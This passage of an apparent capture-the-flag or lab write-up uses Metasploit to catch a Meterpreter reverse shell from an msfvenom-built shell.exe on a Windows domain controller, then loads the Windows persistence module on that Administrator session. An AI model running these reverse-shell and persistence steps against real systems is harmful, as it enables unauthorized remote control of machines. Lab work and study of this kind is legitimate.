 Open metasploit with

>msfconsole init

1. Afterwards, 'use exploit/multi/handler'.
1. Set 'payload' with 'set payload windows/meterpreter/reverse_tcp'.
1. Set LHOST as 'tun0'.
1. Set LPORT as '5555' since that is what is set on the shell.exe that was generated with msfvenom
1. Run 'exploit'.
1. Execute the binary that was uploaded into the target machine. Just type shell.exe on the terminal with access to the target machine.

![reverseshell](assets/img/reverseshell-success.png)

Now type 'background' so that it runs in the background as a persistence module.

![background](assets/img/background.png)

### Running the Persistence Module

``` bash
msf6 exploit(multi/handler) > use exploit/windows/local/persistence
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
```
Selecting the persistence module. The payload is set to the one I used earlier.

```bash
msf6 exploit(windows/local/persistence) > set session 1
session => 1
```
The session is set to '1' which refers to the session that was background-ed earlier.

```bash
msf6 exploit(windows/local/persistence) > sessions

Active sessions
===============

  Id  Name  Type                     Information                               Connection
  --  ----  ----                     -----------                               ----------
  1         meterpreter x86/windows  CONTROLLER\Administrator @ DOMAIN-CONTRO  10.4.38.235:5555 -> 10.10.159.225:50513
                                     LL                                        (10.10.159.225)
```
Above shows the sessions listed when typing 'sessions'.
